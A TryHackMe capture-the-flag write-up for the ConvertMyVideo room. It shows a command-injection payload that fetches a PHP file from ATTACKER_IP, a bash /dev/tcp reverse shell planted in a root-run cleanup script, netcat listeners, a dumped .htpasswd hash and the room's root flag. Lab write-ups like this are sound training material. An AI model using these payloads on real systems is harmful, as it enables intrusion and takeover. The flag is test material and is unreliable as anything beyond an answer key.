





# TryHackMe: ConvertMyVideo — Write-up

**Room:** [ConvertMyVideo](https://tryhackme.com/room/convertmyvideo)  
**Target:** `10.48.161.207`  
**Difficulty:** Not specified  
**Attack path:** Web enumeration → Command injection → Reverse shell → Credential discovery → Root privilege escalation

## 1. Reconnaissance

Ran an Nmap scan to identify exposed services:

```
nmap -A -vv 10.48.161.207
```

**Open ports:**

- `22/tcp` — OpenSSH 7.6p1
    
- `80/tcp` — Apache HTTP Server 2.4.29
    

## 2. Web Enumeration

Enumerated directories using Gobuster:

```
gobuster dir -u http://10.48.161.207 \
  -w /usr/share/wordlists/dirb/common.txt
```

**Notable findings:**

- `/admin` — HTTP Basic Authentication
    
- `/tmp/` — Temporary directory
    
- `/index.php` — Main application
    

The website provided video conversion functionality, which became the entry point for command injection.

## 3. Initial Access — Command Injection

Intercepted the application's POST request and tested the `yt_url` parameter with a command separator and `wget`:

```
yt_url=;`wget${IFS}http://ATTACKER_IP:8000/exploit.php`
```


The server response confirmed that the command executed and downloaded `exploit.php` into the application's working directory.

Triggered the downloaded PHP payload:

```
http://10.48.161.207/exploit.php
```


Started a Netcat listener on the attacking machine:

```
nc -lvnp 9001
```

Received a reverse shell as `www-data`.



## 4. Credential Discovery

Inspected the Apache Basic Authentication password file:

```
cat /var/www/html/admin/.htpasswd
```

Found the following entry:

```
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```

The username was `itsmeadmin`. The password hash used Apache's APR1-MD5 format. The raw dump does not establish a recovered plaintext password.



## 5. Privilege Escalation — Root

Inspected the temporary directory's cleanup script:

```
cat /var/www/html/tmp/clean.sh
```

Original contents:

```
rm -rf downloads
```

Replaced the script with a reverse-shell command:

```
echo 'bash -i >& /dev/tcp/ATTACKER_IP/5555 0>&1' \
  > /var/www/html/tmp/clean.sh
```

Started another listener:

```
nc -lvnp 5555
```

When the script executed, the callback provided a **root shell**. This indicates that the cleanup script was executed with root privileges; the exact scheduling or execution mechanism was not established in the supplied evidence.



## 6. Root Flag

Read the root flag:

```
cat /root/root.txt
```

**Root flag:**

```
flag{d9b368018e912b541a4eb68399c5e94a}
```

## Key Takeaways

- Enumerate exposed services and web directories before exploitation.
    
- Test user-controlled application parameters for command injection.
    
- Inspect web application files and authentication artifacts after obtaining initial access.
    
- Investigate writable scripts and their execution privileges during privilege-escalation analysis.
    
- Validate privilege escalation by confirming the effective user and accessing the root flag.
    

**Vulnerabilities demonstrated:** OS command injection and a privileged script modification/execution path.